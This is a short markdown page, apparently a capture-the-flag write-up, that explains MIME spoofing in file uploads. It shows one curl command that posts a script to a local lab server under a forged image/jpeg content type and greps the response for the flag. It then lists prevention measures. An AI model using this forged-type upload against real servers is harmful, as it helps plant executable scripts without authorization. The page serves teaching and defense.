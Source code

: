# MIME Spoofing

MIME Spoofing occurs when an attacker uploads a malicious script disguised as a different file type, such as an image. For example, the following `curl` command uploads a malicious script while the server thinks it is an image:

```sh
curl -s -X POST \
    -F "uploaded=@./malicious_script.sh;type=image/jpeg" \
    -F "Upload=Upload" \
    "http://127.0.0.1:1080/index.php?page=upload" | grep 'flag'
```

## How to Prevent MIME Spoofing

To prevent MIME spoofing, it is essential to:

1. **Validate File Types:** Check the file's MIME type and extension to ensure it matches the expected type.
2. **Scan Uploaded Files:** Use antivirus or security software to scan uploaded files for malicious content.
3. **Restrict File Uploads:** Limit the types of files that can be uploaded to only those that are necessary.
4. **Use Security Libraries:** Utilize libraries and frameworks that provide built-in protection against file upload vulnerabilities.